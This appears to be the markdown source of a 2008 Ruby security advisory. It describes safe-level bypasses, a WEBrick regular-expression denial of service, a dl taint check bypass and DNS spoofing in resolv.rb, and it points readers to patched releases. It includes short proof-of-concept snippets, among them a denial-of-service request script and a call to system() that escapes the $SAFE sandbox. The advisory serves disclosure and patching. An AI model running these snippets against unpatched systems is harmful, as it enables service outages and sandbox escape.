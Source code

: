 ```yaml
---
layout: news_post
title: "Multiple vulnerabilities in Ruby"
lang: en
---
```


Multiple vulnerabilities have been discovered in Ruby. It\'s recommended
that you upgrade to the latest versions.

## 

The following vulnerabilities have been discovered.

### 

Several vulnerabilities in safe level have been discovered.

* untrace\_var is permitted at safe level 4.
  
      trace_var(:$VAR) {|val| puts "$VAR = #{val}" }
      
      Thread.new do
       $SAFE = 4
       eval %q{
         proc = untrace_var :$VAR
         proc.first.call("aaa")
       }
      end.join

* $PROGRAM\_NAME may be modified at safe level 4.
  
      Thread.new do
       $SAFE = 4
       eval %q{$PROGRAM_NAME.replace "Hello, World!"}
      end.join
      
      $PROGRAM_NAME #=> "Hello, World!"

* Insecure methods may be called at safe level 1-3.
  
      class Hello
       def world
         Thread.new do
           $SAFE = 4
           msg = "Hello, World!"
           def msg.size
             self.replace self*10 # replace string
             1 # return wrong size
           end
           msg
         end.value
       end
      end
      
      $SAFE = 1 # or 2, or 3
      s = Hello.new.world
      if s.kind_of?(String)
       puts s if s.size < 20 # print string which size is less than 20
      end

* Syslog operations are permitted at safe level 4.
  
      require "syslog"
      
      Syslog.open
      
      Thread.new do
       $SAFE = 4
       eval %q{
         Syslog.log(Syslog::LOG_WARNING, "Hello, World!")
         Syslog.mask = Syslog::LOG_UPTO(Syslog::LOG_EMERG)
         Syslog.info("masked")
         Syslog.close
       }
      end.join

These vulnerabilities were reported by Keita Yamaguchi.

### 

WEBrick::HTTP::DefaultFileHandler is faulty of exponential time taking
requests due to a backtracking regular expression in
WEBrick::HTTPUtils.split\_header\_value.

Exploitable server:

    require 'webrick'
    WEBrick::HTTPServer.new(:Port => 2000, :DocumentRoot => "/etc").start

Attack:

    require 'net/http'
    res = Net::HTTP.start("localhost", 2000) { |http|
      req = Net::HTTP::Get.new("/passwd")
      req['If-None-Match'] = %q{meh=""} + %q{foo="bar" } * 100
      http.request(req)
    }
    p res

The request likely won\'t finish in this universe.

This vulnerability was reported by Christian Neukirchen.

### 

dl doesn\'t check taintness, so it could allow attackers to call
dangerous functions.

    require 'dl'
    $SAFE = 1
    h = DL.dlopen(nil)
    sys = h.sym('system', 'IP')
    uname = 'uname -rs'.taint
    sys[uname]

This vulnerability was reported by sheepman.

### 

resolv.rb allow remote attackers to spoof DNS answers. This risk can be
reduced by randomness of DNS transaction IDs and source ports, so
resolv.rb is fixed to randomize them.

* see also: [CVE-2008-1447][1]

This vulnerability was reported by Tanaka Akira.

## 


: * 1\.8.5 and all prior versions
  * 1\.8.6-p286 and all prior versions
  * 1\.8.7-p71 and all prior versions


: * r18423 and all prior revisions

## 


: Please upgrade to 1.8.6-p287, or 1.8.7-p72.
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz&gt;][2]
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz&gt;][3]



: Please check out the latest version using Subversion.
  
      $ svn co http://svn.ruby-lang.org/repos/ruby/trunk ruby

Please note that a package that corrects this weakness may already be
available through your package management software.

## 

Credit to Keita Yamaguchi, Christian Neukirchen, sheepman, and Tanaka
Akira for disclosing these problems to Ruby Security Team.

## 

* 2008-08-08 12:21 +09:00 fixed the revision number of ruby 1.9.
* 2008-08-11 11:23 +09:00 fixed the patchlevel of ruby 1.8. see [the
  release announcement of Ruby 1.8.7-p72 and 1.8.6-p287][4]



[1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-1447 
[2]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz 
[3]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz 
[4]: http://www.ruby-lang.org/en/news/2008/08/11/ruby-1-8-7-p72-and-1-8-6-p287-released/ 
